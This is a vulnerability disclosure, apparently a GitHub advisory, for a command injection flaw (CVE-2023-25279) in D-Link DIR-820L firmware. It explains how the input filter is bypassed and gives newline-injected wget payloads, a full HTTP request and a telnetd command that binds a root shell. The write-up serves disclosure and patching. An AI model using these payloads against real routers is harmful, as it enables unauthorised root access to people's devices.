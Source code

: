 # D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability  exists in several variables of the component "/tools_email.asp" of D-Link DIR820LA1_FW105B03 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_5129BC` function obtains the content of the variable `emailCfg_AccountName_1.1.0.0`、`emailCfg_SMTPServerAddress_1.1.0.0`、` emailCfg_EmailTo_1.1.0.0`、`emailCfg_EmailFrom_1.1.0.0`  from the request of `/tools_email.asp`, and splicing the parameters of the system causes the command to be executed.

![vuln1](vuln1.png)

Command execution defense bypass. The function `hasInjectionString` filters the written instructions, but it does not filter `%0a`,`$` and other symbols, resulting in bypass. See poc for specific methods.

![vuln2](vuln2.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector1**：`emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector2**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector3**：`emailCfg_SMTPServerAddress_1.1.0.0=%0awget http://192.168.0.2%0a`

​	**Attack Vector4**：`emailCfg_EmailFrom_1.1.0.0=%0awget http://192.168.0.2%0a`

- First use `sudo python3 -m http.server80` to build a web server locally, and you will see the echo

<img src="email_tool.png" alt="email_tool" style="zoom:70%;" />

- Then find the Tool Email entry, and use Burp to modify the data message to be consistent with the poc

```xml
POST /get_set.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 542
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/tools_email.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=set&ccpSubEvent=CCP_SUB_WEBPAGE_APPLY&nextPage=tools_email.asp&emailCfg_Enable_1.1.0.0=1&emailCfg_EmailFrom_1.1.0.0=aaa&emailCfg_EmailTo_1.1.0.0=123&emailCfg_SMTPServerAddress_1.1.0.0=123&emailCfg_SMTPServerPort_1.1.0.0=25&emailCfg_AuthenticationEnable_1.1.0.0=1&emailCfg_AccountName_1.1.0.0=%0awget http://192.168.0.2%0a&emailCfg_AccountPassword_1.1.0.0=WDB8WvbXdHtZyM8Ms2RENgHlacJghQyGWDB8WvbXdHtZyM8Ms2RENgHlacJghQyG&emailCfg_LogOnFullEnable_1.1.0.0=1&emailCfg_LogOnScheduleEnable_1.1.0.0=1&emailCfg_LogScheduleIndex_1.1.0.0=254&1675062771722=1675062771722
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell，Such as`emailCfg_AccountName_1.1.0.0=%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a`



## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25279